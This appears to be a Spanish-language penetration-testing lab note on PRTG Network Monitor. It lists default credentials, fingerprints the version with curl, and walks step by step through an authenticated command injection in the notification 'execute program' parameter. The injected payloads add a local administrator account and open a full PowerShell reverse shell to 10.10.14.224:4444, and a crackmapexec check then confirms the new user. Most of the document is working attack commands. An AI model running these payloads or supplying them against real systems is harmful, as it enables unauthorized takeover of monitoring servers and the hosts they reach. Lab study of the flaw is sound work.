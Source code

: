 ### Info

- Es usado para monitorear el tráfico del ancho de banda
- actualizar y recolectar estadisticas de varios hosts incluyendo routers, switches, servers.
- Se puede consultar la información recopilada desde la REST API.
- Es un servicio que corre en AHAX-based website
- Default keys: prtgadmin:prtgadmin

### ENUM

Podemos llegar al login simplemente accediendo a la web con el puerto:

    http://10.129.201.50:8080/index.htm

##### Version:

    curl -s http://10.129.201.50:8080/index.htm -A "Mozilla/5.0 (compatible;  MSIE 7.01; Windows NT 5.0)" | grep version


### Explotación:

Si la versión es menor a 18.2.39, entonces sufre una authenticated command-injection.

##### 1)Vamos a setup > Account settings > Notifications
##### 2)Add new notification
##### 3)Le damos a la notificación un nombre y vamos al fondo a darle a "execute program"
##### 4)Luego seleccionamos "Demo exe notification -outfile.ps1" en la opción "Program file"
##### 5) En la opción parameter inyectamos el comando (correrá en un powershell)
    test.txt;net user <user> <pass> /add;net localgroup administrators <user> /add

or generate a reverseshell:

    test.txt;$client = New-Object System.Net.Sockets.TCPClient('10.10.14.224',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
##### 6)Le damos a "save" y nos redirige a notifications donde vamos a tener nuestra notificación.
##### 7)Le damos a test (si hay un pop up con un error, podemos doblechequear la notificación y correrlo otra vez)
##### Luego testeamos con crackmapexec para ver si se creó el user

    sudo crackmapexec smb 10.129.201.50 -u <user> -p <pass> 
